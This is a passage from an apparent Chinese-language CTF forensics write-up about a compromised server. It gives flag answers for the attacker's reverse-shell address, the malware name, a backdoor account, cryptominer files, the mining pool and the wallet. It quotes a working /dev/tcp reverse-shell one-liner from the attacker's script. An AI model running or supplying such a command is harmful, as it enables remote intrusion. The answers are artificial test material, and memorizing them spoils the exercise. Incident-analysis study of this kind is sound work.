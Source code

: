 > 黑客反弹shell的ip和端口是什么，格式为：10.0.0.1:4444

`bbbb.sh`文件

```
/bin/sh -i >& /dev/tcp/192.168.43.128/2333 0>&1
```

FLAG：`192.168.43.128:2333`

### server save_3

> 黑客的病毒名称是什么？ 格式为：filename

`.bash_history`

`/home/guests/main`

FLAG：`main`

### server save_4

> 黑客的病毒运行后创建了什么用户？请将回答用户名与密码：username:password

可以结合[云沙箱](https://sandbox.ti.qianxin.com/sandbox/page/detail?type=file&id=AZiep5Wfh6wn_HCyIJXV)

FLAG：`ll:123456`

### server save_5

> 服务器在被入侵时外网ip是多少? 格式为：10.10.0.1

`/home/guests/.log.txt`

FLAG：`172.105.202.239`

### server save_6

> 病毒运行后释放了什么文件？格式：文件1,文件2

FLAG：`lolMiner ,mine_doge.sh`

### server save_7

> 矿池地址是什么？ 格式：domain:1234

`mine_doge.sh`

FLAG：`doge.millpools.cc:5567`

### server save_8

> 黑客的钱包地址是多少？格式：xx:xxxxxxxx

FLAG：`DOGE:DRXz1q6ys8Ao2KnPbtb7jQhPjDSqtwmNN9.lolMinerWorker`

## WS

[附件下载](https://pan.baidu.com/share/init?surl=SPvbhQ9nw5Wp23TzUHFr_g) 提取码（GAME）[备用下载](https://share.weiyun.com/lykzsNsI)
